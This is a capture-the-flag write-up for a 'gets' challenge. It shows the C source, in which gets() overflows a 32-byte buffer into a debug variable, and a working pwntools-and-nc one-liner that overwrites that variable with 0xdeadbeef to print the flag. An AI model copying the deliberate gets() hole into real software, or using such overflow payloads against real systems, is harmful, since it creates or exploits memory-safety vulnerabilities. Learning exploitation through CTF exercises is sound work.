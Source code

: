 ## Problem ##

My favorite libc function is gets. I am very confident in its security. Connect with

`nc gets.litctf.live 1337`

## Solution ##

Along with the binary we are provided with the source code in `gets.c`:

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	setbuf(stdout, 0x0);
	setbuf(stderr, 0x0);

	puts("Gets is very secure. You may see other sources tell you otherwise, but they are wrong.");
	puts("Geeksforgeeks says gets is insecure. G4g also says graph coloring can be solved in O(n).");
	puts("Wikipedia says gets is insecure. Anyone can write anything on wikipedia, it is unreliable.");
	puts("The linux docs say gets is insecure. No one reads the linux docs except stuck up nerds.");
	puts("My compiler warned me gets is insecure. My compiler also can't add semicolons automatically");
	puts("Hopefully you can see that gets is in fact secure, and all who tell you otherwise are lying.\n");

	puts("Are you starting to understand?");

	long debug = 0;
	char buf[0x20];
	gets(buf);

	if(strcmp(buf, "Yes") == 0){
		puts("I'm glad you understand.");
		if(debug == 0xdeadbeef){
			FILE *f = fopen("flag.txt","r");
			if(f == NULL){
				puts("Something is wrong. Please contact Rythm.");
				exit(1);
			}

			fgets(buf, 0x20, f);

			puts("Debug info:");
			puts(buf);
		}
	}else{
		puts("Think Mark, think! Gets is secure!");
	}

	return 0;
}
```

My thought process here is that first we want to enter "Yes" in order to get past the first `strcmp`. We then have a length 32 (i.e. 0x20 in hex) buffer to overflow, which we can do because [gets is vulnerable to buffer overflow](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351).

We can then terminate the string with a null byte (that is, \x00).

We then want to overwrite the `debug` parameter, currently set to `0`, with `0xdeadbeef` in order to get past the second `if` statement and obtain the flag on the remote server. With a couple attempts I determined that we needed to have 36 filler characters before overwriting the `debug` variable, which is 4 more than the size of the buffer.

We can build a one-liner as follows to get the flag:

```console
root@osboxes:~/Downloads/gets_pwn# python -c 'from pwn import *; print "Yes\x00" + "A"*36 + p32(0xdeadbeef)' | nc gets.litctf.live 1337
== proof-of-work: disabled ==
Gets is very secure. You may see other sources tell you otherwise, but they are wrong.
Geeksforgeeks says gets is insecure. G4g also says graph coloring can be solved in O(n).
Wikipedia says gets is insecure. Anyone can write anything on wikipedia, it is unreliable.
The linux docs say gets is insecure. No one reads the linux docs except stuck up nerds.
My compiler warned me gets is insecure. My compiler also can't add semicolons automatically
Hopefully you can see that gets is in fact secure, and all who tell you otherwise are lying.

Are you starting to understand?
I'm glad you understand.
Debug info:
flag{d0_y0u_g3ts_1t}
```

Flag is **flag{d0_y0u_g3ts_1t}**

